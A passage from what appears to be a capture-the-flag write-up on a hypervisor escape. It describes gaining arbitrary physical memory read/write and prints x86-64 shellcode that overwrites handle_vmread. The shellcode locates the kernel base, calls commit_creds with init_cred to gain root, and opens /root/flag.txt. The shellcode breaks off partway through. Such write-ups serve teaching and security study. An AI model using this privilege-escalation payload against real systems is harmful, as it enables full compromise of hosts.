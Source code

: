 ### arbitrary physical memory read/write
At this point we had fully arbitrary physical memory read/write, e.g. we can read/write pages regardless of what their permissions are in the host by going through the mapping we established in the guest, which effectively turns this into a shellcoding exercise.

We scanned memory to find the address of the `handle_vmread` function in physical memory and overwrote it with the following payload, which just privescs the current thread, then opens and reads the flag file into memory:
```c
    push rax
    push rbx
    push rcx
    push rdx
    push r9
    push r10
    push r11
    push r12
    push r13
    push r14
    push rdi
    push rsi

    // get kaslr base
    mov rax, 0xfffffe0000000004
    mov rax, [rax]
    sub rax, 0x1008e00

    // r12 is kaslr_base
    mov r12, rax

    // commit_creds
    mov r13, r12
    add r13, 0xbdad0

    // init_cred
    mov r14, r12
    add r14, 0x1a52ca0

    mov rdi, r14
    call r13

    // filp_open
    mov r11, r12
    add r11, 0x292420

    // push /root/flag.txt
    mov rax, 0x7478742e6761
    push rax
    mov rax, 0x6c662f746f6f722f
    push rax
    mov rdi, rsp

    // O_RDONLY
    mov rsi, 0
    call r11

    // r10 is filp_ptr
    mov r10, rax

    // kernel_read
    mov r11, r12
    add r11, 0x294c70

```